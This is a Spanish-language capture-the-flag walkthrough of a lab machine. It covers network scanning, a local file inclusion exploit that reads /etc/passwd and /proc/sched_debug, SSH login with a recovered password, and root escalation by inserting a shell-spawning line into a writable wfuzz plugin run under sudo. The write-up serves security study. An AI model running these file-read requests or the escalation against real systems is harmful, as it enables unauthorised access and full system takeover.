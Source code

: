 Realizamos un escaneo inicial mediante ARP para identificar la dirección IP de la máquina objetivo. Como resultado, localizamos el host con la IP `192.168.0.23`.
```
sudo arp-scan -I eth0 --localnet 
```
![Captura de pantalla de 2025-05-29 10-37-22](https://github.com/user-attachments/assets/a896d8b6-242d-414c-ad56-6a92a43ac8b8)


Realizamos una enumeración de puertos con `nmap` y descubrimos que los puertos 22 (SSH) y 80 (HTTP) se encuentran abiertos.
```
nmap -p- --open -sS -sC -sV 192.168.0.23 
```
![Captura de pantalla de 2025-05-29 10-44-42](https://github.com/user-attachments/assets/fda4470a-d75a-45f8-b39a-5df7d4a5cac9)

Al detectar que el puerto 80 (HTTP) está abierto, accedemos a la dirección IP desde el navegador para analizar el contenido que se muestra en la web.

![Captura de pantalla de 2025-05-29 10-51-13](https://github.com/user-attachments/assets/4a2510f3-299c-4cbb-bcaf-8ff54de410d6)

Observamos que hay un proceso en ejecución, por lo que continuamos con la enumeración. Utilizamos Gobuster para descubrir posibles directorios ocultos que puedan proporcionarnos más información.
```
gobuster dir -u http://192.168.0.23 -w /usr/share/wordlists/dirb/common.txt -t 40
```
![Captura de pantalla de 2025-05-29 10-55-30](https://github.com/user-attachments/assets/9ea4b9dd-c0a9-488a-9a0e-713f46ba777d)


Procedemos a investigar más a fondo el archivo `index.php`. Para ello, lanzamos un escaneo con Nikto con el objetivo de detectar posibles vulnerabilidades o configuraciones inseguras.
```
sudo nikto -h http://192.168.0.23/index.php
```
![Pasted image 20250529111054](https://github.com/user-attachments/assets/c194786c-4977-4bdb-ab43-46868be618fb)

![Captura de pantalla de 2025-05-29 11-11-23](https://github.com/user-attachments/assets/12bde7f4-3cff-43cf-962b-b3cd2dbd2a2b)


Nikto nos indica que el parámetro `include` podría ser vulnerable a una vulnerabilidad de inclusión local de archivos (LFI). Para comprobarlo, realizamos una petición con `curl` y observamos la información que devuelve la página.
```
curl http://192.168.0.23/index.php?include=../../../../../../../../../etc/passwd 
```
![Pasted image 20250529125853](https://github.com/user-attachments/assets/f1d30177-de2d-4017-8e97-c7651c32f5c5)

Aprovechando la vulnerabilidad LFI, intentamos acceder al archivo `/proc/sched_debug`, ya que anteriormente se mostró un pequeño fragmento de su contenido, lo cual indica que podría estar accesible. Este archivo proporciona información sobre las tareas (procesos) en ejecución. Para facilitar la lectura, filtramos la salida utilizando `grep` con las palabras clave `ben`, `pass`, `flag`, `task` y `cmd`, centrándonos así en los datos potencialmente relevantes.
```
curl "http://192.168.0.23/index.php?include=../../../../proc/sched_debug" | grep -i 'ben\|pass\|flag\|task\|cmd'
```
![Captura de pantalla de 2025-05-29 17-56-45](https://github.com/user-attachments/assets/3ef01633-b533-463c-813f-aa134127aacc)


Accedemos a la máquina mediante SSH con el usuario `ben` para continuar la enumeración y explotación:
```
sudo ssh ben@192.168.0.23
pass: B3nP4zz
```
Ejecutamos `ls -lat` para listar los archivos en el directorio home del usuario ben y encontramos el archivo `user.txt`, que contiene la flag del usuario:

![Captura de pantalla de 2025-05-30 08-55-02](https://github.com/user-attachments/assets/43c2eb20-443b-49cf-b48e-98bd2a876cbb)

Listamos los permisos sudo del usuario ben para ver qué comandos puede ejecutar sin contraseña. Encontramos que puede ejecutar el binario `wfuzz` como sudo:
```
sudo -l
```
![Captura de pantalla de 2025-05-30 09-00-17](https://github.com/user-attachments/assets/5fe1f6d7-a482-41d6-92cd-7beed3b018fd)

Buscando archivos relacionados con `wfuzz` en los que el usuario tenga permisos de escritura, encontramos un archivo Python llamado `range.py`:
```bash
find / -writable 2>/dev/null | grep "wfuzz"
```

![Captura de pantalla de 2025-05-30 09-26-18](https://github.com/user-attachments/assets/60865b07-daa6-4bb0-b54c-916de62b6881)

Editamos el archivo vulnerable para insertar código que nos permita obtener una shell: ```ben@brain:~$ nano /usr/lib/python3/dist-packages/wfuzz/plugins/payloads/range.py ```Añadimos el siguiente código **al principio** del archivo para ejecutar una shell Bash:
```
import os
os.system("/bin/bash")
```


![Captura de pantalla de 2025-05-30 09-29-51](https://github.com/user-attachments/assets/78e5a153-5d84-480d-b46e-7b37b31cb693)

En cuanto se ejecute, el código Python se disparará automáticamente y nos abrirá una **shell interactiva con privilegios de root**.

```bash
sudo /usr/bin/wfuzz -z range,0-10 --hl 97 http://localhost
```

![Captura de pantalla de 2025-05-30 09-40-59](https://github.com/user-attachments/assets/74ff002d-5309-42d0-a026-436192fc540f)


## Por qué funciona esto?

`wfuzz` está hecho en Python y al ejecutar el payload `range` importa y ejecuta `range.py`, por lo que al modificar ese archivo con código que lanza una shell (`os.system("/bin/bash")`) y ejecutar `wfuzz` con `sudo`, obtenemos una shell con privilegios de root.

